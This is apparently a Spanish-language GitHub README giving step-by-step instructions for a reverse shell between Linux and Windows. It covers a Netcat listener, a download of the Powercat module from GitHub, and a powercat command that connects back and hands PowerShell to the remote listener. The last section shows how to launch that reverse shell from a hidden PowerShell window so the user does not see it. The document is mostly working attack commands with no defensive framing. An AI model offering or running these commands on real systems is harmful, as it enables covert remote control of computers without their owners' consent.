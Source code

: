 # RemotePowerShells
Repositorio sobre shell remotas.


# Shell Remota entre Linux y Windows

Guía paso a paso para establecer una shell remota entre una máquina Linux y una máquina Windows utilizando Netcat y Powercat.

## En la máquina Linux (Listener)

1. Abre una terminal.
2. Ejecuta el siguiente comando para iniciar un listener con Netcat:
   ```
   bash
   nc -lvp 4444
   ```
   Donde `4444` es el puerto en el que deseas escuchar.

## En la máquina Windows (Conector)

1. Abre PowerShell.
2. Descarga e importa el módulo Powercat con los siguientes comandos:
   \`\`\`powershell
   Invoke-WebRequest "https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1" -OutFile powercat.ps1
   Import-Module ./powercat.ps1
   \`\`\`
3. Conecta tu máquina Windows a la máquina Linux con el siguiente comando:
   \`\`\`powershell
   powercat -c <ip-address> -p 4444 -ep powershell
   \`\`\`
   Donde `<ip-address>` es la dirección IP de tu máquina Linux y `4444` es el puerto que especificaste en el comando Netcat.

Ahora, cuando te conectes desde tu máquina Linux, obtendrás una shell de PowerShell de tu máquina Windows.
\`\`\`

### Inicia una shell remota con la ventana de PowerShell oculta con el siguiente comando:
   ```powershell
   Start-Process powershell -ArgumentList "-WindowStyle Hidden -Command & {powercat -c <ip-address> -p 4444 -ep powershell}" 
   \`\`\`
